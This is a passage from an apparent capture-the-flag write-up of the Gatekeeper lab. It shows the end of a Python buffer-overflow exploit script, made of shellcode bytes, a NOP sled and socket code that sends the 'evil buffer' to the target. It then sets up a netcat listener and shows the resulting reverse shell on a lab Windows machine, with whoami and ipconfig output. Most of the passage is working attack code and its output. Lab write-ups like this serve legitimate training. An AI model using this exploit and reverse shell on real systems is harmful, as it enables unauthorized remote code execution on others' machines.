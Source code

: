 ```py
shellcode += b"\x27\xbd\xb9\x88\x39\x85\x37\x6e\x53\xe9\x11"
shellcode += b"\x39\xcc\x90\x3b\xb1\x6d\x5c\x96\xbc\xae\xd6"
shellcode += b"\x15\x41\x60\x1f\x53\x51\x15\xef\x2e\x0b\xb0"
shellcode += b"\xf0\x84\x23\x5e\x62\x43\xb3\x29\x9f\xdc\xe4"
shellcode += b"\x7e\x51\x15\x60\x93\xc8\x8f\x96\x6e\x8c\xe8"
shellcode += b"\x12\xb5\x6d\xf6\x9b\x38\xc9\xdc\x8b\x84\xd2"
shellcode += b"\x58\xff\x58\x85\x36\xa9\x1e\x7f\xf9\x03\xc9"
shellcode += b"\x2c\x53\xc3\x8c\x1e\x64\x95\x90\x4a\x12\x79"
shellcode += b"\x20\x23\x63\x86\x8d\xa3\x63\xff\xf3\x53\x8b"
shellcode += b"\x2a\xb0\x74\x6e\xfe\xcd\x1c\x37\x6b\x6c\x41"
shellcode += b"\xc8\x46\xb3\x7c\x4b\x62\x4c\x7b\x53\x07\x49"
shellcode += b"\xc7\xd3\xf4\x23\x58\xb6\xfa\x90\x59\x93"

buffer = payload + nop + shellcode

try:
	with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
		s.connect((ip, port))

		print('[+] Sending evil buffer...')
		s.send(buffer + b'\r\n') # \r means the Enter key, \n means new line character
		print('[+] Done!')
except:
	print('[-] Unable to send/connect to the target.')
```

**Now, our exploit has completed! Let's try to get a shell from our debugging virtual machine!**

- Setup a `nc` listener:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Gatekeeper]
└─# nc -lnvp 443                
listening on [any] 443 ...
```

- Run the exploit:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Gatekeeper]
└─# python3 exploit.py
[+] Sending evil buffer...
[+] Done!
```

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Gatekeeper]
└─# nc -lnvp 443                
listening on [any] 443 ...
connect to [192.168.183.141] from (UNKNOWN) [192.168.183.144] 50460
Microsoft Windows [Version 10.0.19044.2006]
(c) Microsoft Corporation. All rights reserved.

C:\Users\Student\Desktop>whoami && ipconfig
whoami && ipconfig
desktop-n71nbkr\student

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : localdomain
   Link-local IPv6 Address . . . . . : fe80::65d6:b86d:9d3a:c6d7%11
   IPv4 Address. . . . . . . . . . . : 192.168.183.144
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.183.2
```